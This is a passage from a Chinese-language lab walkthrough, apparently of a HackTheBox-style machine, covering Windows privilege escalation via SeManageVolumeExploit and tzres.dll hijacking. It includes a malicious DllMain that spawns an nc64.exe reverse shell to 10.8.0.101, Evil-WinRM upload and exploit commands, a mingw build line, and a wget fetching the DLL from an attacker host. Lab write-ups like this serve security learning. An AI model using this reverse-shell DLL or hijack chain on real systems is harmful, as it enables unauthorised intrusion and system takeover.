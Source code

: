 ```
UsebasicParsing) 依赖shell.ps1的powershell脚本反弹，github上的恶意Printconfig.c是：

#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c C:\\windows\\tasks\\nc64.exe 10.8.0.101 443 -e cmd.exe");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

这里是直接使用cmd运行nc64.exe进行反弹，所以其实我们也可以上传一个nc64.exe，然后用它来反弹。
DllMain是Dll文件的入口函数，详情见《windows核心编程》第20章：DLL高级技术
```

回到靶机中，先上传：

```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> upload SeManageVolumeExploit.exe
```

然后执行：

```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> .\SeManageVolumeExploit.exe
Entries changed: 863

DONE`
```

准备好恶意的tzres.c，然后用如下指令编译：

```
x86_64-w64-mingw32-gcc tzres.c -s -w -static -fpermissive -shared -o tzres.dll -m64
```

然后使用evil-winrm上传，或者使用wget下载，

```
wget http://10.10.14.43:9001/tzres.dll -O C:\Windows\System32\wbem\tzres.dll
```

然后这里卡在触发上，writeup中没有明确指明用什么，只是说可以用类似systeminfo的指令，但是这里systeminfo运行不了，又尝试了`tzutil  /g`，但是它是直接加载C:\Windows\System32\tzres.dll，而不是C:\Windows\System32\wbem\tzres.dll。而前者我们没有权限。尝试把这个程序和恶意dll复制到用户目录下执行，希望加载dll时从当前目录开始搜寻，也不行。
